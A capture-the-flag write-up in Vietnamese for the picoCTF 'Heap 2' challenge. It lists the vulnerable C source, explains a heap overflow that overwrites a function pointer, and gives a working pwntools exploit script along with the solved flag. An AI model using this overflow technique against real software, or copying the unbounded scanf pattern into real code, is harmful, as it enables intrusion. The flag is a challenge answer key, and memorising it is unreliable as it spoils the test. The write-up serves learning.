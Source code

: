 ## Heap 2
Can you handle function pointers?

Download the binary here.

Download the source here.

Additional details will be available after launching your challenge instance.

## Solution
#### Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

* Dựa vào source, ta có thể dùng buffer overflow để ghi đè lên biến `input_data`. Bây giờ việc cần phải làm là xác định được số ký tư để đè và địa chỉ của hàm win để đưa vào cuối chuỗi buffer.
* `void check_win() { ((void (*)())*(int*)x)(); }` khi truyền vào x một địa chỉ hàm thì nó sẽ thực thi luôn hàm đó, vậy ta cần ghi đè địa chỉ hàm `win` lên biến x.
* Chạy file binary và thử in Heap:
```
I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x17776b0  ->   pico
+-------------+-----------+
[*]   0x17776d0  ->   bico
```
* Vậy 0x17776b0 là địa chỉ của `input_data` và 0x17776d0 là địa chỉ của `x` => 2 biến cách nhau 32 bytes.
* Lấy đựa địa chỉ hàm win là `0x00000000004011a0`.

Đây là file exploit:
```
from pwn import *

p = remote('mimas.picoctf.net', 60033)

p.sendline(b'2')
p.sendline(b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00')
p.sendline(b'4')

print(p.recvall())
```

Thu được flag: `picoCTF{and_down_the_road_we_go_dbb7ff66}`